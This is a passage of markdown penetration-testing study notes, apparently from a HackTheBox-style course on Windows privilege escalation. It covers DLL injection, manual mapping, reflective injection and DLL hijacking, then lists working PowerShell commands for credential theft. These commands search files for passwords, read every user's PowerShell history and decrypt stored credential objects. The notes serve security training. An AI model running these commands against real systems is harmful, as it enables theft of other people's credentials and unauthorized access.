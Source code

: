             printf("Successfully injected example.dll into target process\n");

            return 0;
        }
        ```
    
    * Manual mapping - complex, advanced form of DLL injection; involves manual loading of DLL into process's memory and resolves its imports & relocations, and it is not easy to detect

    * [Reflective DLL injection](https://github.com/stephenfewer/ReflectiveDLLInjection)

    * DLL hijacking -

        * if an app doesn't specify the full path to a required DLL, DLL hijacking can be used to load DLLs during runtime

        * default DLL search order used by system depends on whether 'Safe DLL Search Mode' is activated or not; when disabled, user directory is higher up in the priority, making it easier for DLL hijacking

        * first, we need to pinpoint a DLL the target is attempting to locate; tools such as ```Process Explorer``` (view info on running processes and its loaded DLLs) and ```PE Explorer``` (examine PE files like .exe or .dll files, and check DLLs used)

        * then, we need to understand which functions to modify - RE tools like disassemblers and debuggers are needed

        * once the functions and their signatures have been identified, we can construct the DLL

        * techniques like DLL proxying and crafted libraries (replacing invalid libraries) can be used to execute a hijack

## Credential Theft

```ps
# application config files
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

# Chrome dictionary files
# stores words which are part of custom dictionary
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

# unattended installation files can also store passwords
# search for 'unattend.xml' files

# check PowerShell history save path
(Get-PSReadLineOption).HistorySavePath

# read PowerShell history
gc (Get-PSReadLineOption).HistorySavePath

# assuming default save path is being used for all users
# we can search all PowerShell history files that can be accessed as current user
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

# if PowerShell credentials are used, we can recover cleartext creds
# in case it is being referred from another file
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username
$credential.GetNetworkCredential().password
```
